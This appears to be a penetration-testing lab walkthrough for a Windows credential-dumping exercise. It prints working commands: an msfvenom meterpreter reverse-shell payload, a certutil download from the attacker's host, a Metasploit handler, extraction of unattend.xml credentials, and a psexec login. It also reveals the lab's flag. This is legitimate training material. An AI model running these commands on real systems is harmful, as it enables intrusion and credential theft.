







# 🔬Credentials Dumping

## Lab 1 - Unattended Files

>  🔬 [Unattended Installation](https://attackdefense.com/challengedetails?cid=2106)
>
>  - Target IP: `10.4.19.9`
>  - Searching for password in Windows Configuration files
>  - Both Kali Machine and Attacker/Victim Windows machine are provided

- On the Attacker machine check the current user



### Exploitation

- From the Kali machine, generate a `meterpreter` x64 payload

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.4.2 LPORT=1234 -f exe > payload.exe
```

- Set up a web server to host the payload

```bash
python -m SimpleHTTPServer 80
```

- Download the payload file on the target system using the `certutil` tool in `cmd`

```bash
cd Desktop
certutil -urlcache -f http://10.10.4.2/payload.exe payload.exe
```

- Stop the http server and start `msfconsole` on the Kali machine

```bash
msfconsole -q
```

```bash
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LPORT 1234
set LHOST 10.10.4.2
run
```

- Execute the `payload.exe` on the Win target system and check the reverse shell on Kali 



- Manually search for the **`unattend.xml`** file, it should be inside
  - `C:\\Windows\\Panther`

```bash
cd C:\\Windows\\Panther
dir
download unattend.xml
```



- In a new terminal tab

```bash
cat unattend.xml
```



### Get Access

- `administrator` user configured base64 password is **`QWRtaW5AMTIz`**
  - Save it to a new file
  - Decode it using the `base64` tool

```bash
nano password.txt
# paste the password, save and exit the file

base64 -d password.txt 
	Admin@123root
```



- Test the `administrator`:`Admin@123root` credentials with the `psexec` tool

```
psexec.py administrator@10.4.19.9
```



```bash
cd C:\Users\Administrator\Desktop
type flag.txt
```

<details>
<summary>Reveal Flag: 🚩</summary>


`097ab83639dce0ab3429cb0349493f60`



</details>

------

## Lab 2 - Mimikats
